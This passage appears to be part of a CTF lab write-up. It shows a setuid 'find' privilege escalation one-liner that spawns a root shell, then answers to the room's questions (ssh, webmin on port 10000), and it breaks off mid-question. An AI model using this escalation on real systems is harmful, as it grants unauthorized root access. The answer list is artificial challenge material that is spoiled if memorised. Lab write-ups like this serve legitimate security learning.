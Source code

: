 `find` binary with setuid bit can be used to bypass local security restrictions with the command below:

```
find . -exec /bin/sh -p \; -quit
```

And here with our root.txt

![20](img/20.png)

Hope you enjoy !



<br /><br />

## Task 1 - Questions #1

Intermediate level CTF. Just enumerate, you'll get there.

### File extension after anon login

```
txt
```

### What is on the highest port?

```
ssh
```

### What's running on port 10000?

```
webmin
```

### Can you exploit the service running on that port? (yay/nay answer)

```
nay
```

### What's CMS can you access?
